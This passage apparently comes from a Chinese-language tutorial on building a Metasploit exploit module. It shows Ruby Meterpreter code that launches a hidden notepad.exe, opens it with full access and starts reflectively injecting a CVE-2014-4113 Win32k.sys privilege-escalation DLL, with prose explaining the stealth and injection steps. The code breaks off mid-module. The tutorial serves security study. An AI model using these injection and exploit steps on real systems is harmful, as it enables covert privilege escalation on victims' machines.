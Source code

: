 ```
    notepad_process = client.sys.process.execute('notepad.exe', nil, {'Hidden' => true})
```

```
    begin
```

```
        process = client.sys.process.open(notepad_process.pid, PROCESS_ALL_ACCESS)
```

```
        print_good("Process #{process.pid} launched.")
```

```
  rescue Rex::Post::Meterpreter::RequestError
```

```
        print_error('Operation failed. Trying to elevate the current process...')
```

```
        process = client.sys.process.open
```

```
    end
```

该方法从尝试启动记事本开始。请注意，**{'Hidden' => true}** 参数被传递给 **execute**。这确保了记事本会执行，但友好的编辑器窗口不会实际出现在用户面前（这肯定会让用户察觉到有什么不对劲）。然后，我们处理记事本启动成功的情况，并获取进程 ID，进入下一阶段的攻击；如果启动记事本失败，**rescue** 会派上用场，处理启动失败的情况，改为获取当前打开的进程用于下一阶段。

DLL 是 Windows 中共享库模型的实现。它们是可以被多个程序共享的可执行代码。就实际用途而言，它们应当被视为可执行文件。与 EXE 文件的主要区别在于，DLL 需要一个由运行中的程序提供的入口点。从安全角度来看，DLL 是非常危险的，因为它们被加载到调用进程的内存空间中，这意味着它们拥有与运行进程相同的权限。如果我们能够将恶意 DLL 注入到一个特权进程中，这几乎就意味着游戏结束。

接下来是我们的大高潮——反射 DLL 注入。DLL 旨在加载到进程的内存空间中，因此 DLL 注入实际上就是强制用我们选择的 DLL 来加载它。然而，由于 DLL 本身就是一个独立的文件，DLL 注入通常涉及从磁盘上提取 DLL 的代码。反射 DLL 注入让我们可以直接从内存中提取源代码。让我们来看看我们的模块在 **Win32k.sys** 漏洞利用的背景下如何进行反射 DLL 注入：

```
    print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
```

```
   if target.arch.first == ARCH_X86
```

```
        dll_file_name = 'cve-2014-4113.x86.dll'
```

```
    else
```

```
        dll_file_name = 'cve-2014-4113.x64.dll'
```

```
    end
```
